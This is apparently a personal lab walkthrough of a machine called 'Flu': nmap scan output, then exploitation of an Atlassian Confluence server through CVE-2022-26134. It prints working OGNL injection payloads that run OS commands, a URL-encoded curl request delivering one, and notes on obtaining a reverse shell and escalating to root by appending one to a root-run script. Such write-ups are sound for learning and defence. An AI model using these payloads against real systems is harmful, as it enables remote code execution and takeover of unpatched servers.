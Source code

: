 ## NMAP

```
?$ nmap -sC -sV 192.168.53.41 -oA Flu
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 14:04 UTC
Nmap scan report for 192.168.53.41
Host is up (0.0012s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:79:64:84:da:12:97:23:77:8a:3a:60:20:96:ee:cf (ECDSA)
|_  256 dd:49:a3:89:d7:57:ca:92:f0:6c:fe:59:a6:24:cc:87 (ED25519)
8090/tcp open  opsmessaging?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 302 
|     Cache-Control: no-store
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     X-Confluence-Request-Time: 1717941856042
|     Set-Cookie: JSESSIONID=41E1548E051749CC0298C1A45EEEB3AA; Path=/; HttpOnly
|     X-XSS-Protection: 1; mode=block
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: SAMEORIGIN
|     Content-Security-Policy: frame-ancestors 'self'
|     Location: http://localhost:8090/login.action?os_destination=%2Findex.action&permissionViolation=true
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 09 Jun 2024 14:04:16 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 200 
|     MS-Author-Via: DAV
|     Content-Type: text/html;charset=UTF-8
|     Content-Length: 0
|     Date: Sun, 09 Jun 2024 14:04:16 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 1924
|     Date: Sun, 09 Jun 2024 14:04:16 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1><hr class="line" /><p><b>Type</b> Exception Report</p><p><b>Message</b> Invalid character found in the HTTP protocol [RTSP&#47;1.00x0d0x0a0x0d0x0a...]</p><p><b>Description</b> The server cannot or will not process the request due to something that is perceived to be a client error (e.g., malformed request syntax, invalid

```

## Port 8090 (Protocol HTTP - Confluence)

Atlassian Confluence server

[CVE-2022-26134](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/)

```CVE-2022-26134-exploit-1
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("<COMMAND>").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

```CVE-2022-26134-exploit-2
${@java.lang.Runtime@getRuntime().exec("touch /tmp/r7")}
```

send URL Encoded via `curl -v http://<IP>:8090/<URL_ENCODED_EXPLOIT>`

weaponised exploit:

```
curl -v http://192.168.53.41:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/r7%22%29%7D/
```

Not working for more than id, found another exploit for [REV SHELL](https://github.com/jbaines-r7/through_the_wire.git)

Got reverseshell

Ran [[Monitor Running Processes PrivEsc |PSPY]]

Found root running a script owned by confluence, appended revshell to script

==DONE==
